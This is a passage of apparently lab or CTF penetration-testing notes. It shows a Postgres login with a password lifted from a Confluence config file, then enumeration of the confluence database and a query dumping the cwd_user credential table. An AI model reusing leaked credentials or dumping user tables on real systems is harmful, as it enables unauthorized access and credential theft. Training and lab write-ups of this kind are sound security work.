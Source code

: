 - Connect via Postgres on Kali
```bash
psql -h 192.168.247.63 -p 2345 -U postgres
	Password for user postgres:         #<-- NOTE:  D@t4basePassw0rd! - Found w/in Confluence's config file
	psql (16.2 (Debian 16.2-1), server 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1))
	SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
	Type "help" for help.
	
	postgres=# 
```

- Continue enumeration
```bash
# Get list of databases
postgres=#  \l
	                                                        List of databases
	    Name    |  Owner   | Encoding | Locale Provider |   Collate   |    Ctype    | ICU Locale | ICU Rules |   Access privileges   
	------------+----------+----------+-----------------+-------------+-------------+------------+-----------+-----------------------
	 confluence | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           | 
	 postgres   | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           | 
	 template0  | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           | =c/postgres          +
	            |          |          |                 |             |             |            |           | postgres=CTc/postgres
	 template1  | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           | =c/postgres          +
	            |          |          |                 |             |             |            |           | postgres=CTc/postgres
	(4 rows)

# Step into confluence db
postgres=# \c confluence
	psql (16.2 (Debian 16.2-1), server 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1))                                                 
	SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)                                      
	You are now connected to database "confluence" as user "postgres".                                                        

# Enum tables
postgres=# \dt
	                         List of relations
	 Schema |                 Name                  | Type  |  Owner   
	--------+---------------------------------------+-------+----------
	 public | AO_187CCC_SIDEBAR_LINK                | table | postgres
	 public | AO_21D670_WHITELIST_RULES             | table | postgres
	 public | AO_21F425_MESSAGE_AO                  | table | postgres
	 public | AO_21F425_MESSAGE_MAPPING_AO          | table | postgres
	 public | AO_21F425_USER_PROPERTY_AO            | table | postgres
	 ...
	 public | cwd_user                              | table | postgres
	 public | cwd_user_attribute                    | table | postgres
	 public | cwd_user_credential_record            | table | postgres
	 ...


# Dump cwd_user table
confluence=# select * from cwd_user;
```